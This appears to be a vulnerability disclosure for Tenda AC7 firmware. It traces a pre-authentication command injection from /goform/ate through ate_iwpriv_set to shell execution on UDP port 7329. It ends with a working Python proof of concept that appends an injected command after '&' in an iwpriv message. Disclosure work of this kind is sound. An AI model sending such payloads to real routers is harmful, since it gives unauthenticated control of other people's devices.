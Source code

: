 # Description

Tenda AC7 ate_iwpriv_set has pre-authentication command injection

[firmware download](https://www.tenda.com.cn/download/detail-2776.html)

# Affected version

V15.03.06.44 and earlier 

# details

When accessing `url:/goform/ate`, `TendaAte` will be called

![2024-10-04_173619](2024-10-04_173619.png)

The `TendaAte` function creates a thread and calls `ate_main_handle`

![2024-10-04_173913](2024-10-04_173913.png)

In `ate_main_handle`, port number `7329` is opened, `udp` messages are received and processed, and the transmission message format is `command args`

The message is further processed by `ate_cmd_process`

When `command` is `iwpriv`and `arg` is `wlan0` or `wlan1`, the `ate_iwpriv_set` function is called

![2024-10-04_203324](2024-10-04_203324.png)

if `;` not in `arg`, The code will enter this branch

![2024-10-04_203449](2024-10-04_203449.png)

The `iwpriv_wlan_set` function will directly execute user input, causing command injection

![2024-10-04_203635](2024-10-04_203635.png)

# POC

```py
import socket
import time
import os

os.system('curl http://192.168.0.10/goform/ate')

time.sleep(3)

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

server_address = ('192.168.0.10', 7329)
command = b'ls'
message = b'iwpriv wlan0 &' + command

try:
    print(f'Sending: {message}')
    sock.sendto(message, server_address)

    data, server = sock.recvfrom(4096)
    print(f'Received: {data}')

finally:

    sock.close()
```
